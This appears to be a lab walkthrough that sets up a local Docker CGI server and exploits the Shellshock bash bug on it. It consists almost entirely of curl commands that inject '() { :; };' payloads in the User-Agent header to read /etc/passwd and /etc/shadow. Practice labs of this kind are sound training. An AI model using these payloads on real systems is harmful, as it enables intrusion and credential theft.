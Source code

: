 # Start web server
docker-compose up -d


# Launch the attack
View in a browser: http://127.0.0.1:8080/
curl http://127.0.0.1:8080/cgi-bin/info
curl http://127.0.0.1:8080/cgi-bin/stats

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/stats

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/shadow;'" http://127.0.0.1:8080/cgi-bin/stats
docker exec -it web-server bash
chmod +r /etc/shadow


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/info




